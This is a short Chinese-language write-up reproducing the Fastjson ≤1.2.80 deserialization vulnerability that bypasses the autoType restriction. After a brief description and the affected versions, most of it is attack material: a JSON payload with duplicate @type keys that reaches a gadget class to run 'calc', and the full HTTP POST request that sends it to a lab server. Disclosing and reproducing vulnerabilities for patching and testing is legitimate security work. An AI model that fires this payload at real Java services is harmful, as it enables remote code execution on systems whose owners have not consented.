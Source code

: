 **简要描述**

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON字符串，也可以从 JSON 字符串反序列化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可以在特定依赖下利用此漏洞绕过默认autoType 关闭限制，从而反序列化有安全风险的类。

**影响版本**

FastJson ≤1.2.80

**漏洞复现**

漏洞payload

```yaml
{
    "@type": "java.lang.Exception",
    "@type": "com.github.isafeblue.fastjson.SimpleException",
    "domain": "calc"
}
```

发送payload

```yaml

POST /addComment HTTP/1.1
Host: 10.211.55.7:8099
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 40
Content-Type: application/json; charset=utf-8
Cookie: LOGIN_LANG=cn
Origin: http://10.211.55.7:8099
Referer: http://10.211.55.7:8099/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0
X-Requested-With: XMLHttpRequest

{
    "@type": "java.lang.Exception",
    "@type": "com.github.isafeblue.fastjson.SimpleException",
    "domain": "calc"
}
```

